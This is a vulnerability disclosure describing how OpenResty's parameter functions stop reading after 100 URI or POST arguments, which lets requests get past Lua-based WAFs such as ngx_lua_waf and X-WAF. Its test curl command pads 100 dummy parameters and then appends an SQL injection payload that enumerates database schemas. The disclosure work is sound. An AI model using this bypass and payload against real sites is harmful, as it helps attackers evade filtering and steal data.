







# Uri parameter overflow in OpenResty

### General Description	

Prior to the OpenResty 1.13.6.1 version, URI parameters were obtained using the ngx.req.get_uri_args, ngx.req.get_post_args functions, allowing remote attackers to bypass OpenResty based security and affect multiple open source WAF.

### Details

First look at the official API document. There are two ways to get a URI: ngx.req.get_uri_args, ngx.req.get_post_args. The main difference between the two is the difference between the parameter sources, the ngx.req.get_uri_args acquires the URI request parameters, and the ngx.req.get_post_args gets the content from the post request.

Test case：

```
server {
   listen    80;
   server_name  localhost;

   location /print_param {
       content_by_lua_block {
           local arg = ngx.req.get_uri_args()
           for k,v in pairs(arg) do
               ngx.say("[GET ] key:", k, " v:", v)
           end
       ngx.req.read_body()
       local arg = ngx.req.get_post_args()
       for k,v in pairs(arg) do
           ngx.say("[POST] key:", k, " v:", v)
       end
   }

   }
}
```

When the same parameter ID is submitted, it is sorted according to the order of received parameters.

However, when the parameter ID is used to transform the case, such as Id, iD and ID, it will be regarded as different parameters.



#### Uri parameter overflow

What happens if we do not have a segment parameter, so I construct a test case that is convenient for display, a0-a9, 10*10, a total of 100 parameters, and then add the 101st parameters to the SQL injection Payload, let's see what happens?

Test cases:

```
 curl '127.0.0.1/test?
 a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&
 a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&
 a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&
 a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&
 a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&
 a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&
 a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&
 a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&
 a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&
 a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&
 id=1 union select 1,schema_name,3 from INFORMATION_SCHEMA.schemata'
```

Output results:



It can be seen that using ngx.req.get_uri_args to get URI request parameters, we only get the first 100 parameters, and the 101st parameter is not obtained. 

Continue to construct a POST request and look at it.



The content of post request obtained by ngx.req.get_post_args also obtains the first 100 parameters.

To sum up, the first 100 parameters can be obtained by ngx.req.get_uri_args and ngx.req.get_post_args. When the 101st parameters are submitted, the parameters of the URI parameters are overrun and the parameter values after 100th are not properly obtained. 

Based on the security protection of the ngx_lua development, it is impossible for the attacker to carry out effective security detection for the 100th subsequent parameters submitted by the attacker, thus bypassing the security defense.

### Impact products

#### A ngx_lua_waf

Ngx_lua_waf is a web application firewall based on lua-nginx-module (openresty).

Using ngx.req.get_uri_args and ngx.req.get_post_args to get URI parameters.

github：https://github.com/loveshell/ngx_lua_waf

**Interception effect diagram：**



**Using uri parameter overflow Bypass：**



#### B X-WAF

X-WAF is a cloud WAF system suitable for small and medium-sized businesses, enabling small and medium-sized businesses to have their own free cloud WAF conveniently.

Using ngx.req.get_uri_args and ngx.req.get_post_args to get URI parameters.

The official website：https://waf.xsec.io 

github：https://github.com/xsec-lab/x-waf

**Interception effect diagram：**



**Using uri parameter overflow Bypass：**


